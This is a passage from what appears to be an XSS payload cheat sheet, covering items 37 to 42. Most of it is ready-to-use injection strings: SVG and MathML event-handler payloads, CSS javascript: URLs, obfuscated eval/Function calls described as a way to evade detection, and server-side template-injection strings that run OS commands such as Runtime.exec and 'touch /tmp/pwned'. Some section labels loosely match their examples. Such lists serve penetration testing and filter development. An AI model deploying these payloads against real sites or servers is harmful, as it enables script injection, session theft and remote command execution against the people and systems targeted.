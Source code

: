 ```html
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS')"></svg>
```

### **38. NoScript Contexts (Injection in Non-Script Tags)**
Inject XSS payloads in attributes that are not meant for scripts.

```html
<math xmlns="http://www.w3.org/1998/Math/MathML"><mtext><title><![CDATA[<img src="x" onerror="alert(1)">]]></title></mtext></math>
<div id="div1" onclick="document.getElementById('div1').innerHTML='<img src=x onerror=alert(1)>'">Click me</div>
```

### **39. XSS in Template Engines**
Payloads designed to abuse popular web template engines (e.g., JSP, Thymeleaf, Jinja).

```html
${@java.lang.Runtime@getRuntime().exec('calc')}
{{constructor.constructor('alert(1)')()}}
#{T(java.lang.Runtime).getRuntime().exec('touch /tmp/pwned')}
```

### **40. XSS Using CSS (Style Attribute)**
CSS injection leveraging HTML attributes to trigger JavaScript.

```html
<div style="background-image:url(javascript:alert('XSS'))">Test</div>
<style>body{color:expression(alert(1))}</style>  // Obsolete in newer versions of IE
```

### **41. XSS via XPath Injection**
XPath injections with inline JavaScript.

```xml
<name>
  <![CDATA[<script>alert('XSS')</script>]]>
</name>
```

### **42. Obfuscated JavaScript Techniques**
Using obfuscation to evade detection, such as self-executing functions.

```html
<svg><script>(function(){alert(1)})()</script></svg>
<script>eval('al'+'ert(1)')</script>
<script>Function('ale'+'rt(1)')()</script>
<script>$=String;$($('al'+'ert(1)'))()</script>
```

### **43. Filter Bypass Techniques**
Using different encodings and bypass tricks to avoid typical XSS filters.
